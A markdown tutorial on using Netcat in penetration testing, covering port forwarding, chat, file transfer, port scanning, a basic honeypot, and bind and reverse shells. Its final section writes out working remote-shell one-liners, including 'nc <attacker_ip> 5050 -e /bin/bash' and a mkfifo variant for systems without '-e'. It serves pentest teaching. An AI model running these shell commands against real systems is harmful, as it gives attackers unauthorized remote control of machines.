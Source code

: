 # Swiss Army Knife for Pentesters

> **Focus:** using multi-purpose tools (like Netcat) to establish connections, scan networks, transfer files, and more during penetration tests.

---

## Table of Contents
1. [Port Forwarding](#1-port-forwarding)
2. [Swiss Army Knife Concept](#2-swiss-army-knife-concept)
3. [Netcat](#3-netcat)
4. [UDP & File Transfer](#4-udp--file-transfer)
5. [Port Scanning](#5-port-scanning)
6. [Honeypot](#6-honeypot)
7. [Bind vs Reverse Shell](#7-bind-vs-reverse-shell)

---

## 1 – Port Forwarding

### What is Port Forwarding?
Port forwarding allows traffic from outside a network to reach a specific device inside a local network by configuring the router to forward incoming packets on a port to an internal IP and port.

**Why it matters:**  
Penetration testers often need to pivot or access services hidden behind NAT/firewalls.

### Example Scenario

```
+-----------------------+       +-------------------------+
|       Internet         | <---> |     Router (NAT)        |
+-----------------------+       +-------------------------+
                                      |
                                      | forwards port 2222 -> 192.168.0.10:22
                                      |
                            +----------------------+
                            | Local Network        |
                            | Device: 192.168.0.10 |
                            | SSH server on :22    |
                            +----------------------+
```

---

## 2 – Swiss Army Knife Concept

### Why "Swiss Army Knife"?
A Swiss Army Knife packs multiple tools into a single device.  
Similarly, certain pentesting utilities pack multiple networking features into a single binary.

### Swiss Army Knife for Pentesters
Tools like `netcat`, `ncat`, `socat`, `cryptcat`, and `sbd` allow you to:

- Establish and receive connections  
- Perform banner grabbing  
- Set up simple chat sessions  
- Transfer files over TCP/UDP  
- Deploy basic honeypots  
- Scan ports  
- Execute remote commands

---

## 3 – Netcat

### About Netcat
Netcat (often installed as `nc`, `netcat`, or `nc.traditional`) is a minimalistic networking utility available by default on most Linux distros.  
There are also Windows binaries (`nc.exe`).

---

### Example: Connecting to a Service
Connect to an FTP server on port 21:

```bash
nc www.businesscorp.com.br 21
```

---

### Chat Over Netcat
You can use Netcat to set up a rudimentary chat between two machines.

#### On the listener:
```bash
nc -l -p 4444
```

#### On the client:
```bash
nc 192.168.0.10 4444
```

---

### IP Logger Example
```bash
nc -l -p 5555 > connections.txt
```
Any incoming data will be saved into `connections.txt`.

---

### Transfer Files (TCP)
#### Listener (receiving the file)
```bash
nc -l -p 6666 > received_file.txt
```
#### Sender
```bash
nc 192.168.0.10 6666 < file_to_send.txt
```

---

## 4 – UDP & File Transfer

### Opening a UDP port
```bash
nc -vnlup 53
```

### Connecting via UDP
```bash
nc -vnu <ip> 53
```

### Transferring a file over UDP (quick example)
#### On the receiver
```bash
nc -u -l -p 1234 > received_file.txt
```
#### On the sender
```bash
nc -u <ip> 1234 < file_to_send.txt
```

---

## 5 – Port Scanning

Netcat can be used as a simple port scanner:

```bash
nc -vnz <ip> 80
```

### Scan a range of ports
```bash
nc -vnz <ip> 20-100
```

### Scan common ports on multiple hosts
You can combine with `xargs`:
```bash
echo 192.168.0.{1..10} | xargs -n1 -I{} nc -vnz {} 22-25
```

---

## 6 – Honeypot

You can use Netcat to create a very simple honeypot that captures anything sent to it.

```bash
nc -l -p 8080 > log.txt
```

Any data sent will be saved into `log.txt`.  
You can also send an initial message to confuse attackers:

```bash
while true; do echo "Welcome to HTTP Server" | nc -l -p 8080 >> connections.log; done
```

---

## 7 – Bind vs Reverse Shell

### Bind Shell
Target listens on a port and waits for the attacker to connect.  
- **Attacker initiates the connection.**

#### Example with Netcat:
```bash
nc -vnlp 5050 -e /bin/bash
```
Then the attacker connects:
```bash
nc <target_ip> 5050
```

---

### Reverse Shell
Target initiates a connection back to the attacker and sends a shell.  
- **Useful to bypass inbound firewall restrictions.**

#### On attacker machine (listening):
```bash
nc -vnlp 5050
```

#### On target machine:
```bash
nc <attacker_ip> 5050 -e /bin/bash
```

---

### More Bind & Reverse Shell Examples

#### Using `mkfifo` to avoid disabled `-e`
```bash
rm /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_ip> 5050 > /tmp/f
```

